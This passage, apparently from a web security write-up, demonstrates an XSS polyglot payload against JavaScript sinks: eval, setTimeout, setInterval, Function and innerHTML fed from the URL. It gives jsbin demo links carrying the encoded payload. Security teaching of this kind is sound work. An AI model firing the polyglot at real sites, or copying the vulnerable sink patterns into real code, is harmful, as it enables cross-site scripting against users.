 _Demo: _[_https://jsbin.com/vovogo_](https://jsbin.com/vovogo)

**JS sinks:**

* **`eval`:**

```
eval(location.hash.slice(1));
```

_Demo: _[_https://jsbin.com/qejisu#jaVasCript:/\*-/\*%60/%5C%60/\*'/%22/\*\*/(/\*%20\*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert()//%3E%5Cx3e_](https://jsbin.com/qejisu#jaVasCript:/\*-/\*%60/\*%5C%60/\*'/\*%22/\*\*/\(/\*%20\*/oNcliCk=alert\(\)%20\)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert\(\)//%3E%5Cx3e)

* **`setTimeout`:**

```
setTimeout(location.search.slice(1));
```

_Demo: _[_https://jsbin.com/qawusa?jaVasCript:/\*-/\*%60/\*%5C%60/\*'/\*%22/\*\*/(/\*%20\*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert()//%3E%5Cx3e_](https://jsbin.com/qawusa?jaVasCript:/\*-/\*%60/\*%5C%60/\*%27/\*%22/\*\*/\(/\*%20\*/oNcliCk=alert\(\)%20\)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert\(\)//%3E%5Cx3e)

* **`setInterval`:**

```
setInterval(location.search.slice(1));
```

_Demo: _[_https://jsbin.com/colese?jaVasCript:/\*-/\*%60/\*%5C%60/\*'/\*%22/\*\*/(/\*%20\*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert()//%3E%5Cx3e_](https://jsbin.com/colese?jaVasCript:/\*-/\*%60/\*%5C%60/\*%27/\*%22/\*\*/\(/\*%20\*/oNcliCk=alert\(\)%20\)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert\(\)//%3E%5Cx3e)

* **`Function`:**

```
new Function(location.search.slice(1))();
```

_Demo: _[_https://jsbin.com/hizemi?jaVasCript:/\*-/\*%60/\*%5C%60/\*'/\*%22/\*\*/(/\*%20\*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert()//%3E%5Cx3e_](https://jsbin.com/hizemi?jaVasCript:/\*-/\*%60/\*%5C%60/\*%27/\*%22/\*\*/\(/\*%20\*/oNcliCk=alert\(\)%20\)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert\(\)//%3E%5Cx3e)

* **`innerHTML`/`outerHTML` and `document.write` with HTML-escaped strings:**

```
var data = "jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e";
document.documentElement.innerHTML = data;
```
